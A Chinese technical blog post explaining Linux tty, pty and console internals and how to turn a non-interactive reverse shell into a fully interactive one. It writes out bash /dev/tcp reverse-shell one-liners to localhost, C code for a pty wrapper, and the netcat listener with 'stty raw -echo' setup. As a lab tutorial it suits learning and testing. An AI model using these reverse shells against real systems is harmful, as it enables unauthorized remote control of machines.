常规反弹shell无法使用`vim`，`nano`这样的，说是，其实也不是。
```
bash -i </dev/tcp/127.0.0.1/9999
```
这样的shell其实是可以启用nano的，但是交互性并非那么好。这是因为这些命令是需要操纵`tty`的，也就是和终端交互。
通过`tty`命令再查一下这个反弹的bash，显示`不是一个tty`

> 从用户态往下走，先说一下tty命令

## tty命令
`print the file name of the terminal connected to standard input`这是官方的简写，翻译过来就是输出标准输入的终端设备名
在正常使用，也就是桌面环境下，输出的是
```
$ tty
/dev/pts/0
```
> 每启动一个新的终端，则号码+1

而在非桌面环境下：
```
# tty
/dev/tty3
```
> 默认只有6个tty，其中一个会用来跑桌面

`tty`和`pts`在用户态下没有什么区别，他们都是`terminal`，但是在内核态，却是两个实现。这就要涉及`tty`和`pty`
> tty可切换的是tty1-tty6，ptmx有1个，pts有很多个

## 终端系统
> 信号处理，任务调度，不显示密码这些都是终端下实现的。

终端：
> 终端是提供输入输出环境的控制台，不做其他事情

* 物理终端：直接连接计算机的物理设备，也就是键盘，显示器的统称
* 串行终端：与机器串口对应，一个串口对应的一个串行终端，也对应物理终端
* 虚拟终端：一个计算机系统只有一套物理终端，但是通过伪终端切换，相当于有多套终端设备
* 控制终端：这是一个缓冲概念，为内核提供打印能力，即正在控制的终端，可以是串行终端，虚拟终端或者是伪终端
* 伪终端：虚拟终端和串行终端有限，但是伪终端可以不受限制
* 控制台终端：可以认为是一个计算机对应的一套键盘和显示器，所有的虚拟终端对应的都是同一控制台终端

## tty和tty0和tty1-6
控制终端`/dev/tty`，本身表示的是当前的`tty设备`，命令行下映射当前正在用的虚拟终端，图形化下则映射正在用的伪终端上。和`console`同级，一个串口对于物理设备来说，实际上会注册两次，一次是`tty`，一次就是`console`。


而`/dev/tty0`则是当前虚拟终端的别名，仅限于虚拟终端，且只有`系统/root`能写入，`sudo`不行，因此不管用户当前在使用哪个虚拟终端，只要系统向`/dev/tty0`写入，则在用的虚拟终端也能接收到信息。
```
# tyy
/dev/tty3
# echo 123 >/dev/tty3
123
# echo 123 >/dev/tty0
123
# echo 123 >/dev/tty
123
```
`/dev/tty1-6`这个是实际能看到用到的虚拟终端，他们共享一个真正的物理终端，而其中一个虚拟终端会跑一个`gui`程序，如果有桌面的话。
>  tty是当前tty设备的映射，仅仅指当前，tty0是当前虚拟终端的别名，但是本身是一个系统终端(或者说是一个缓冲区)，而ttyn则是具体的某一个虚拟终端

国外的一个有趣的实验：
```
Switch to the 2nd console by pressing Ctrl+Alt+F2. Login as root. Type sleep 5; echo tty0 > /dev/tty0. Press Enter and switch to the 3rd console by pressing Alt+F3. Now switch back to the 2nd console by pressing Alt+F2. Type sleep 5; echo tty > /dev/tty, press Enter and switch to the 3rd console.
```

## console
`/dev/console`是一个虚拟设备，这是一个只有在`单用户模式`下才能操作的终端，一度默认关联`tty0`，现在完全由内核参数指定，但是只能关联虚拟终端，一定程度上和`tty0`相同。

## pty
> 这个是反弹shell中的重点，先粗解

首先是`ttyn`中的一个用来启动`GUI`，这会在`ttyn`终端中画出一个界面，这时候是无终端的，然后窗口系统会模拟出一个终端设备，也就是`仿真终端`


`仿真终端`主进程启动，在内核中创建`伪终端`设备对，这个设备对统称`pty`，通过`仿真终端`的皮加上`pty`的骨，就此模拟出一套终端程序，然后通过和`X服务`连接创建`仿真终端`窗口，同时开始接收和处理`X服务`发过来的键鼠事件。
对于`GUI`来说，创建`仿真终端`窗口后从键盘摁下，实现的流程是
1. `仿真终端`接收处理`X服务器`传来的键鼠事件
2. `仿真终端`将处理后的事件写入`ptmx`，同时也读取`ptmx`的数据(驱动回显控制)
3. `ptmx`将事件处理后写入`pts`
4. `pts`将数据写入`仿真终端`的`子process`
5. `子process`处理后数据写入`pts`
6. `pts`写入`ptmx`
7. ‘ptmx’写入`仿真终端`
8. `仿真终端`把数据渲染到窗口上



> X是协议，不是某种具体软件，等同http，linux -> X服务器 <-X协议-> GUI --> X程序

但是这儿却是有个关键，就是`仿真终端`所属的终端设备是`ttyn`，而远程登录则一定是一个`pty`，因为`ttyn`只能显示在本身物理终端的显示器上。

> 不管是远程还是GUI，ptmx与仿真终端作关联，pts与仿真终端的子进程关联，同时内核里ptmx只有一个，pts有多个

## 反弹shell
看下`bash反弹`的具体情况
在`GUI`下的反弹：


在`tty`下的反弹：


这两种都是第一个的情况，不是一个`tty`，因为这儿所说的`tty`是一个终端环境的意思，很多人说非交互式是缺少了`tty`，可以说是也可以说不是，因为实际上缺少的是`pty`，但是呢`tty`又是一个映射，指的是当前在用的终端设备，所以这么说其实也没什么错。
再详细点，缺的是`伪终端驱动`，作用如下：
* 回显控制
* 行缓冲
* 特殊控制字符控制




> 前两个是为程序提供了输入输出模式的帮助，比如输入密码时隐藏字符，后面是提供了对进程的控制，比如控制前台进程的结束，挂机等。


详解，历史上有两套伪终端实现，以前是`BSD`，但是后来被放弃了，因为配对出现`master(/dev/ptyn)/slave(/dev/ttyn)`，编程时候需要逐个尝试才能找到终端。现在是`Unix 98`接口，也就是使用`/dev/ptmx`为`master`设备，每次操作都能获得一个`master`的`fd`，并且在`/dev/pts`下创建`slave`设备，而`伪终端驱动`则负责`master`与`slave`的交互。
特殊控制字符，是指Ctrl和其他键的组合。如Ctrl+C、Ctrl+Z等等。用户按下这些按键，终端模拟器（键盘）会在master端写入一个字节。规则是：Ctrl+字母得到的字节是（大写）字母的ascii码减去0x40。比如Ctrl+C是0x03，Ctrl+Z是0x1A。参见下表：


`驱动`会对这些字符进行处理，然后部分控制字符被拦截，然后向前台进程组发送信号。比如反弹shell中的`上`，会变成`^[[A`，就是因为没有驱动去处理，直接输出了。

## 交互式反弹shell
就以`I/O重定向`类型的反弹shell来说：
```
bash -i >/dev/tcp/127.0.0.1/9999 <&1 2<&1
```
获取一个非交互的shell，此时的模型是这样的，单纯的直连，`bash`进程从`nc`接收输入，执行后把输出传给`nc`。


一个合理的`交互式反弹shell`模型情况应该是这样的：


说白了就是实现`针对信号的处理进行作业调度`。但是实际上并非那么好实现，就是要新实现一个`pty`，而且还有一个问题就是，我们自己的`pty`的`驱动`会先处理我们`特殊控制字符`。
因此实现的思路上就是，我们这边对于特殊控制字符的处理选择直接发送`raw`字符，即`ctrl+z`发送的就是`^C`到远端的`master`然后再由远端的`驱动`处理这些`特殊控制字符`。

## 实现交互式反弹shell
### 被控端
被控端得有`pty`，并且`bash`的输入输出接上了`slave`，而我们的输入输出优先进入`master`，那就先得创建一个`伪终端对`
```
int pty_fd = open('/dev/ptmx',O_RDWR);
```
其中针对生成的`从设备`需要设置权限，提供给`SHELL`访问
```
grantpt(pty_fd);
unlockpt(pty_fd);
```
创建`buffer`，提供数据的读写缓冲
```
char buf[MAXDATASIZE]
```
从`标准输入`中读取远程的字节，再写入`master`
```
read(0,buf,MAXDATASIZE);
write(pty_fd,buf,MAXDATASIZE);
```
再`fork`一个进程出来，从`master`中读数据，然后写入`标准输出`
```
pid = fork();
if(pid ==0 ){
read(pty_fd,buf,MAXDATASIZE);
write(1,buf,MAXDATASIZE);
}
```
至此程序模型如下：


这儿的问题就是：
1. 需要手动把`nc`与`process`作关联，也就是建立进程通信，需要用到两个管道
2. 获取到`slave`设备后还需要与`SHELL`作关联

```
$ nc 127.0.0.1 9999< /tmp/123|./ptycreate >/tmp/123
$ bash </dev/pts/4 >/dev/pts/4 2<&1
```
说实话没有对此很满意，程序需要改进。正好可以借鉴`python的封装形式`：
```
import pty
pty.spawn('bash')
```
类似这样的，只要让`process`的`标准输入/输出`重定向到远程，那命令就缩短成了：
```
$ ./ptycreate >/dev/tcp/127.0.0.1/9999 0<&1 2<&1
$ bash </dev/pts/2 >/dev/pts/2 2<&1
```
这样还是不够，可以在源码内部实现，fork一个`SHELL`，然后将`SHELL`的文件描述符重定向到`slave设备`，完成一个`完全交互式反弹shell`
```
$./ptycreate >/dev/tcp/127.0.0.1/9999 0<&1 2<&1
```
> 最后我发现。。。我好像写了小型远控？SSH？XD

### 控制端
控制端本身就有自己的`pty`实现，因此会在数据进入`slave`前就先被`驱动`处理掉`特殊控制字符`，因此要把控制端的处理暂时禁用掉`stty raw`，同样的，因为有两个`ptmx`，所以连接之后控制端每一个输入的字符都被`double`显示，因此还得禁用一方的键盘输出`stty -echo`
```
$ stty raw -echo
$ nc -lvvp 9999  //因为禁用键盘输出的关系，所以看不见，盲打即可
```
> stty在`on-my-zsh`上支持不太好，不知道什么情况，后面研究一下具体的信息

# 参考文章
* [Linux 的伪终端的基本原理 及其在远程登录（SSH，telnet等）中的应用](https://www.cnblogs.com/zzdyyy/p/7538077.html)
* [ Linux TTY/PTS概述](https://segmentfault.com/a/1190000009082089#articleHeader11)
* [对于Linux内核tty设备的一点理解](https://blog.csdn.net/huchuan1985/article/details/46699037)
* [将简单的shell升级为完全交互式的TTY](http://www.4hou.com/technology/6248.html)
* [对话 UNIX](https://www.ibm.com/developerworks/cn/aix/library/au-speakingunix10/index.html)
* [硬件操作函数](https://blog.csdn.net/pkigavin/article/details/8580703)
* [IBM stty解析](https://www.ibm.com/support/knowledgecenter/zh/ssw_aix_72/com.ibm.aix.cmds5/stty.htm)

 